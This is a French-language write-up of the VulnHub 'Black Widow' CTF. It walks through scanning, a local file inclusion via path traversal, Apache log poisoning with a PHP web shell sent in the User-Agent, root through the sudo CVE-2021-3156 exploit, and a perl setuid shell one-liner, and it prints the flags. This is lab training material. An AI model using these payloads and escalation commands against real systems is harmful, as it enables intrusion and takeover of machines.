 ```yaml
---
title: Solution du CTF Black Widow de VulnHub
date: 2022-01-12 13:33:00
tags: [CTF, VulnHub]
---
```


Intro
-----

[Black Widow](https://www.vulnhub.com/entry/black-widow-1,637/) est un CTF créé par *0xJin* et *mindsflee*, disponible sur VulnHub.  

Le CTF est de type boot2root avec un cas d'exploitation web classique qui aurait dû me prendre seulement quelques minutes mais un bug sur le CTF en a décidé autrement :p  

Le scan Nmap nous retourne une pléthore de ports liés aux différents services RPC. NFS aurait pu être de la partie mais aucun export n'est présent.  

Un proxy Squid tourne mais ne nous permet pas d'aller voir en interne (*curl -x http://192.168.56.25:3128/ http://localhost/* nous refuse l'accès).  

```
$ sudo nmap -T5 -p- -sCV 192.168.56.25  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-11 20:16 CET 
Nmap scan report for 192.168.56.25 
Host is up (0.00011s latency). 
Not shown: 65526 closed tcp ports (reset) 
PORT      STATE SERVICE    VERSION 
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 f8:3b:7c:ca:c2:f6:5a:a6:0e:3f:f9:cf:1b:a9:dd:1e (RSA) 
|   256 04:31:5a:34:d4:9b:14:71:a0:0f:22:78:2d:f3:b6:f6 (ECDSA) 
|_  256 4e:42:8e:69:b7:90:e8:27:68:df:68:8a:83:a7:87:9c (ED25519) 
80/tcp    open  http       Apache httpd 2.4.38 ((Debian)) 
|_http-server-header: Apache/2.4.38 (Debian) 
|_http-title: Site doesn't have a title (text/html). 
111/tcp   open  rpcbind    2-4 (RPC #100000) 
| rpcinfo:  
|   program version    port/proto  service 
|   100000  2,3,4        111/tcp   rpcbind 
|   100000  2,3,4        111/udp   rpcbind 
|   100000  3,4          111/tcp6  rpcbind 
|   100000  3,4          111/udp6  rpcbind 
|   100003  3           2049/udp   nfs 
|   100003  3           2049/udp6  nfs 
|   100003  3,4         2049/tcp   nfs 
|   100003  3,4         2049/tcp6  nfs 
|   100005  1,2,3      36713/udp   mountd 
|   100005  1,2,3      44363/tcp   mountd 
|   100005  1,2,3      57572/udp6  mountd 
|   100005  1,2,3      60195/tcp6  mountd 
|   100021  1,3,4      35689/tcp   nlockmgr 
|   100021  1,3,4      44158/udp   nlockmgr 
|   100021  1,3,4      44621/tcp6  nlockmgr 
|   100021  1,3,4      48444/udp6  nlockmgr 
|   100227  3           2049/tcp   nfs_acl 
|   100227  3           2049/tcp6  nfs_acl 
|   100227  3           2049/udp   nfs_acl 
|_  100227  3           2049/udp6  nfs_acl 
2049/tcp  open  nfs_acl    3 (RPC #100227) 
3128/tcp  open  http-proxy Squid http proxy 4.6 
|_http-server-header: squid/4.6 
|_http-title: ERROR: The requested URL could not be retrieved 
35689/tcp open  nlockmgr   1-4 (RPC #100021) 
44363/tcp open  mountd     1-3 (RPC #100005) 
53631/tcp open  mountd     1-3 (RPC #100005) 
54727/tcp open  mountd     1-3 (RPC #100005)
```

Conclusion: on s'en tient au port 80 qu'on maltraite avec l'aide de *Feroxbuster*. L'outil de brute force de paths nous trouve un dossier */company* à la racine du site.  

Assez rapidement je remarque en commentaire HTML le message suivant :  

> We are working to develop a php inclusion method using "file" parameter - Black Widow DevOps Team.

Je n'ai pas vraiment de fichier php à tester donc re-coup de *Feroxbuster* sur les fichiers et il en ressort un fichier *started.php*.  

Je parviens à reproduire la vulnérabilité d'inclusion avec la commande suivante :  

```bash
ffuf -w /wordlists/files/JHADDIX_LFI.txt -u http://192.168.56.25/company/started.php?file=FUZZ -fs 0
```

Il faut remonter une bonne quantité de dossiers avant d'atteindre la racine :  

```
http://192.168.56.25/company/started.php?file=../../../../../../../../../../../../../etc/passwd
```

L'étape suivante est bien sûr d'injecter du PHP dans un fichier présent sur le disque avant de l'inclure et là... catastrophe, j'ai tout essayé sans obtenir quoi que ce soit.  

Je me suis dirigé sur l'hypothèse du bug du CTF quand j'ai vu qu'inclure */var/log/apache2/access.log.1* retournait un résultat mais que l'on avait rien pour */var/log/apache2/access.log*.  

Les auteurs du CTF ont en effet simplement dû changer les permissions sur les logs manuellement mais comme logrotate fonctionne, quand moi j'ai démarré la VM, celle-ci a synchronisé son horloge et logrorate a archivé le fichier de log courant pour en créer un nouveau qui a les permissions par défaut (c'est à dire qu'on ne peut pas l'inclure).  

Par conséquent, boot sur la VM avec édition de l'entrée GRUB pour avoir un shell et correction des permissions pour avoir la même situation que les autres personnes ayant déjà résolu ce CTF :-(  

Injection de logs
-----------------

On part sur du classique à savoir passer du PHP dans le User-Agent en évitant d'y mettre apostrophes et guillemets qui risqueraient d'être échapés.  

```bash
curl -A '<?php system($_GET[chr(99)]); ?>' http://192.168.56.25/
```

Cette fois ça fonctionne !  

```
http://192.168.56.25/company/started.php?file=../../../../../../../../../../../../..//var/log/apache2/access.log&c=id
```

Kansas City Shuffle
-------------------

On peut passer directement de *www-data* à *root* via la faille sudo :  

```
www-data@blackwidow:/tmp/CVE-2021-3156-main$ python exploit_nss.py 
sudoedit: unable to resolve host blackwidow: Temporary failure in name resolution 
# id 
uid=0(root) gid=0(root) groups=0(root),33(www-data) 
# cd /root 
# ls  
root.txt 
# cat root.txt 

▄▄▄▄· ▄▄▌   ▄▄▄·  ▄▄· ▄ •▄     ▄▄▌ ▐ ▄▌▪  ·▄▄▄▄        ▄▄▌ ▐ ▄▌ 
▐█ ▀█▪██•  ▐█ ▀█ ▐█ ▌▪█▌▄▌▪    ██· █▌▐███ ██▪ ██ ▪     ██· █▌▐█ 
▐█▀▀█▄██▪  ▄█▀▀█ ██ ▄▄▐▀▀▄·    ██▪▐█▐▐▌▐█·▐█· ▐█▌ ▄█▀▄ ██▪▐█▐▐▌ 
██▄▪▐█▐█▌▐▌▐█ ▪▐▌▐███▌▐█.█▌    ▐█▌██▐█▌▐█▌██. ██ ▐█▌.▐▌▐█▌██▐█▌ 
·▀▀▀▀ .▀▀▀  ▀  ▀ ·▀▀▀ ·▀  ▀     ▀▀▀▀ ▀▪▀▀▀▀▀▀▀▀•  ▀█▄▀▪ ▀▀▀▀ ▀▪ 

Congrats! 

You've rooted Black Widow! 

0xJin - mindsflee 

0780eb289a44ba17ea499ffa6322b335
```

Regular
-------

Mais on peut voir sur le système un utilisateur *viper* qui dispose d'un fichier *local.txt* (sans doute un flag) dans son répertoire...  

A première vue LinPEAS ne remonte rien d'excitant. Il y a quand même ces capabilities vides sur le binaire perl qui m'échappent :  

```
Files with capabilities (limited to 50): 
/usr/bin/perl = 
/usr/bin/perl5.28.1 = 
/usr/bin/ping = cap_net_raw+ep 
/usr/lib/squid/pinger = cap_net_raw+ep
```

Qu'est-ce que ça signifie ? J'ai testé par exemple de lire */etc/shadow* avec mais sans résultats.  

LinPEAS donne aussi une liste de fichiers de logs auxquels on a accès et il y a notamment le fichier */var/backups/auth.log*.  

Une permissions en lecture sur le véritable *auth.log* m'aurait bien aidé pour la faille d'inclusion... Voyons voir ce qu'il y a dans ce fichier.  

```
Dec 12 16:56:46 test sshd[29560]: Failed password for invalid user ?V1p3r2020!? from 192.168.1.109 port 7090 ssh2
```

Cette ligne est la plus intéressante. L'utilisateur a visiblement tapé son mot de passe quand le nom d'utilisateur lui était demandé.  

On peut ainsi se connecter sur le compte via SSH.  

Fatality
--------

On peut donc obtenir le flag utilisateur :  

```
viper@blackwidow:~$ cat local.txt  
d930fe79919376e6d08972dae222526b
```

L'historique bash de Viper n'a pas été vidé et on peut voir par exemple ces commandes :  

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
--- snip ---
cd backup_site/ 
ls -lrt 
cd assets 
ls -lrt 
cd vendor 
ls -lrt 
cd weapon/ 
ls 
./arsenic -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
--- snip ---

```

Comme vu plus tôt le binaire perl ne dispose plus de capabilities. En revanche on peut reprendre les autres commandes car le fichier *arsenic* est bien présent à l'emplacement attendu :  

```

viper@blackwidow:~/backup_site/assets/vendor/weapon$ ./arsenic -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";' 
# id 
uid=0(root) gid=1001(viper) groups=1001(viper)
```


*Published January 12 2022 at 13:33*
